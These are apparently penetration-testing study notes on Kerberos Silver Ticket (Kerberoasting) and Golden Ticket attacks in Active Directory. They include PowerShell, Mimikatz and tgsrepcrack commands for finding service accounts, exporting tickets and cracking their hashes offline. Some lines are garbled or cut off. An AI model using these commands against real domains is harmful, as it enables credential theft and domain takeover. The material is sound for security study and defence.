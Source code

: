 ### Silver Ticket

- [Silver Ticket:](https://www.varonis.com/blog/kerberos-attack-silver-ticket/) A forged ticket that grants access to a serviceCredential stuffing.
- Password hashes of service accounts could be used to create
- Kerberos session ticket (TGS) has a sever portion which is encrypted with the password hash of the service account.
- Can request a ticket and do offline brute forcing.

![Kerberos Silver Ticket](https://lh5.googleusercontent.com/OKN30PLvn-kXiOXCz4fHfd7mHn_SUCdTnJBRB_NRYpWj9B57kc8cbyn1Ga-pLlWQ38jNvRs7Cz-gpQr0iFpg=w1360-h611-rw)
> https://drive.google.com/open?id=1iSXKVgkO_U61MCf0ItaZgyMt-406pWdD

- KDC does not handle authorization
- Can request TGS for any service
- TGS is encrypted using target-service NTLM hash
- .:. it is possible to brute-force the TGS to get target-service account credentials

- Find Service Accounts
  - GetUserSPNs - <https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py>
  - PowerView (SPN = Service Principal Name)
      ```powershell
      Get-Netuser -SPN
      ```
  - ActiveDirectory Module
      ```powershell
      Install-ActiveDirectoryModule -DllPath C:\AdModule\Microsoft.ActiveDirectory.Management.dll ADModulePath C:\AdModule\ActiveDirectory.psd1

      Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
      ```
- Request SPN Ticket
    ```powershell
    Add-Type -AssemblyName System.IdentityModel
    New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<server-name>"
    ```
    - PowerView
    ```powershell
    Request-SPNTicket
    ```
- Save Tieket
  - List all tickets in cache (check if granted): `klist`
  - Mimikatz: `Invoke-Mimikatz -Command '"kerberos::list /export"'`
- Bruteforce `tgsrepcrack` or use John
    ```
    python.exe .\tgsrepcrack.py .\password.txt '<ticket>'
    ```

### Golden Ticket

- [Golden Ticket:](https://www.varonis.com/blog/kerberos-how-to-stop-golden-tickets/) A ticket that grants a user domain admin access
- Ticket not made by KDC (ticket is self-made)
- Not limited by GPO
- Smart-card independent
- Hence, it's possible to push anything
- Since we have krbtgt
  - Can modify PAC
  - Group ID, SID, Username
- **Kerberos is stateless**
  - All account policy is client side enforcement 
    - Disabled / Expiry / Logon hours
    - Silo memberships 
    - Protected Users  and other group memberships
  - With Kerberos 5 - TGS / KDC has no way of validating that account is still valid when presented with TGT.